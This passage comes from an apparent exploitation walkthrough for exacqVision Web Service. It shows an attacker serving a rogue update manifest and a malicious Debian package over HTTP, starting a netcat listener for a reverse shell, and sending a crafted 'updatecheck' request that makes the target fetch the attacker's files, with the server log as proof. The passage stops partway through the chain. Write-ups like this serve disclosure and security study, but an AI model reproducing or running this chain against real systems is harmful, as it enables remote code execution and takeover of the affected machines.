 ### 5. Downloading/Executing the Malicious Debian Package
Now that the the vulnerable target's update URL is set to search the attacker-controlled `evFileInfo.txt` for a valid version update that will result in the installation/execution of the `evil-package.deb` package on the target, the "Check For Updates" functionality available within the Web Service Administration panel can be leveraged to achieve this goal.

Before continuing, the attacker-controlled `evFileInfo.txt` and `evil-package.deb` files should be made available to the remote exacqVision Web Service system. Since the vulnerable service's update URL is configured to check `http://10.0.0.11/evFileInfo.txt` for updates and the attcker-controlled `evFileInfo.txt` references `http://10.0.0.11/evil-package.deb` as the `Link` location of the "update" file, the two files will be made available to the remote system on HTTP port 80, as shown below.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Additionally, a `nc` listener is started on the attacking system to handle the connection from the `shell_reverse_tcp` payload. 

```
┌─[root@parrot]─[~/demo]
└──╼ #nc -lvp 4444
listening on [any] 4444 ...
```

The "Check For Updates" button can be found within the web application in the "Configuration" sidebar tab under the "Updates" section. The "Check For Updates" process consists of (at a minimum) four requests. The four requests and their subsequent responses are briefly explained and shown below.

The first request in the process is a `GET` request with a specified action of `updatecheck` that accesses/reads the `http://10.0.0.11/evFileInfo.txt` file in search of a valid service update.

```
GET /service.web?auth=b5a5323fc67148a084f6b0bb5f4de83a&action=updatecheck&updates_file=http://10.0.0.11/evFileInfo.txt HTTP/1.1
Host: 10.0.0.22
...
Connection: close
Referer: http://10.0.0.22/service.web?response=html&auth=b5a5323fc67148a084f6b0bb5f4de83a
```

The output below from the attacking system shows that the target system's request for `http://10.0.0.11/evFileInfo.txt` was successful.

```
┌─[root@parrot]─[~/demo]
└──╼ #python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.0.22 - - [03/Jun/2020 07:19:21] "GET /evFileInfo.txt HTTP/1.1" 200 -
```

The response confirms that a valid exacqVision Web Service update was found within `http://10.0.0.11/evFileInfo.txt`. The "valid" update will update the version to `99.99.99.9999`, is located at `http://10.0.0.11/evil-package.deb`, is `Recommended` and is `818` bytes in size.
